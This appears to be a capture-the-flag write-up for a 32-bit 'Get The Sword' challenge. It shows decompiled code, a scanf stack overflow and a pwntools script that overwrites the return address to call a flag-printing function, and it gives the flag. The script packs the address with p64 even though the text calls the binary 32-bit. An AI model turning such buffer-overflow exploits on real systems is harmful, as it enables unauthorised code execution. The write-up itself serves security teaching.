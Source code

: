 # Get The Sword (100 pts)

![get the sword](img/get-the-sword.png)

Download link: [https://drive.google.com/file/d/1HsQMxiZlP5978DzqnoZs6g6QOnCzVm_G/view](https://drive.google.com/file/d/1HsQMxiZlP5978DzqnoZs6g6QOnCzVm_G/view)

First, I run `file` and `checksec` commands to check the file type as well as some information about the file. And I noticed that this is a 32-bit program

![32bit](img/get-the-sword-32bit.png)

Next, I run this file to know the flow of the program. This is a simple program that lets us type anything to "get the sword" (= flag)

![test](img/get-the-sword-test.png)

After that, I used **[Ghidra](https://github.com/NationalSecurityAgency/ghidra)** to generate pseudo code and analyze it

As you can see in the image below, there are 4 functions that we may focus on, especially `main` and `getSword`:

![function](img/get-the-sword-functions.png)

Let's take a look at the `main` function:

```c
//main

undefined4 main(void)

{
  printSword();
  intro();
  return 0;
}
```

We see that it calls the `printSword` function, which will print an ASCII sword to the terminal as I tested above. It also calls `intro` function:

```c
//intro

void intro(void)

{
  undefined local_20 [24];
  
  printf("What do you want ? ?: ");
  fflush(_stdout);
  __isoc99_scanf(&DAT_0804a08c,local_20);
  printf("You want, %s\n",local_20);
  return;
}
```

The `intro` function allows input of up to 24 characters and prints it to the terminal. But, it uses `scanf`, which means we can input more than 24 characters to execute Stack Overflow vulnerability

The last function is `getSword()`:

```c
//getSword

void getSword(void)

{
  system("cat flag.txt");
  fflush(_stdout);
  return;
}
```

The `getSword()` function makes the challenge easier because our mission now is just to find a way to call it and we will get the flag

![It's Hacking Time](https://i.imgur.com/kuFQ3u9.jpg)

First, we need to overflow the buffer by filling it with 24 characters

```sh
python -c "print('A'*24)" | ./get_sword
```

But I don't see the `Segmentation Fault` here, so I'll continue to test some values until I reach it (it's **28** characters)

![28 chars](img/get-the-sword-28.png)

Because this is 32-bit program, we can then add 4 more bytes to overflow the EBP register. If it's 64-bit program, the bytes will be 8 to overflow the RBP register

```sh
python -c "print('A'*32)" | ./get_sword
```

Finally, by adding the address of the `getSword()` function, we can call it and retrieve the flag

You can use **[gdb](https://github.com/hugsy/gef)** to get the address of the `getSword()` function or use **pwntools** to find it faster

This is the exploit script:

```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./get_sword")
io = remote("173.255.201.51", 31337)
io.sendline(b'\x90'*32 + p64(elf.sym['getSword']))
io.interactive()
io.close()
```

![flag](img/get-the-sword-flag.png)

`Flag: KCTF{so_you_g0t_the_sw0rd}`

**Notes:** `\x90` is called NOPs. To read more about NOPs, click [here](https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/nops.md)
